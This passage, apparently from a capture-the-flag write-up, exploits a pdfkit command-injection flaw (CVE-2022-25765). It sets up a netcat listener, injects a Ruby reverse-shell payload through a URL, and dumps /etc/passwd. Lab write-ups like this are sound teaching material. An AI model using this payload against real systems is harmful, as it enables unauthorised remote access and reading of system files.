 
We can see that it was created by `pdfkit v0.8.6`, which is a ruby gem for converting web pages into PDFs. Some googling around shows that this version of PDFkit has a pretty simply exploited vulnerability, [CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795).

All we have to do is pass in a properly formatted URL and we can get command injection.

## Going Straight to Root

We'll set up our netcat listener
```bash
nc -lvnp 9002
#Note: If you're running a different shell instead of bash, switch to bash before doing this
#      or the instructions for upgrading your shell later may not work properly.
```
and then feed this URL into the site
```
http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("<YOUR VPN IP>",9002))'`
```

This gives us back a shell on our listener. Running `whoami` tells us that we are currently the "ruby" user.

We'll start by upgrading our shell. Here's a reference link to a post where I describe my methodology for doing this: [Upgrading Shells](/resources/Upgrading-Shells)

Now let's look at the `/etc/passwd` file

```bash
cat /etc/passwd
```

output:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
ruby:x:1001:1001::/home/ruby:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```
